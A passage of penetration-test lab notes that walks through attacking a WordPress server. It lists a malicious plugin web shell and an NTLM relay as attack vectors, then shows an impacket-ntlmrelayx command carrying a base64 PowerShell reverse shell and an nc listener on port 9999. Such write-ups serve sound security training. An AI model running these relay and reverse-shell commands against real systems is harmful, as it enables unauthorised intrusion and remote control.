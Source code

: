 Potential attack vectors:

1. Attempt to upload a malicious WordPress plugin. Web shell or reverse shell.
2. Attempt to force an authentication via the _Backup directory path_ for a relay attack due to SMB signing being disabled.

Because the second vector results in code execution and provides a potential vector to achieve a goal of the penetration test, we'll attempt this one first.

Setting up **impacket-ntlmrelayx**. We'll use **--no-http-server** and **-smb2support** to disable the HTTP server and enable SMB2 support. We'll specify the external address for MAILSRV1, 192.168.50.242, as target for the relay attack. By entering the external address, we don't have to proxy our relay attack via Proxychains. Finally, we'll base64-encode a _PowerShell reverse shell_ [_oneliner_](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) that will connect back to our Kali machine on port 9999 and provide it as a command to **-c:**

```bash
kali@kali:~/beyond$ sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc JABjAGwAaQ..."
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

Setting up our reverse shell listener:

```bash
kali@kali:~/beyond$ nc -nvlp 9999
listening on [any] 9999 ...
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption><p>Modifying the <em>Backup directory path</em></p></figcaption></figure>
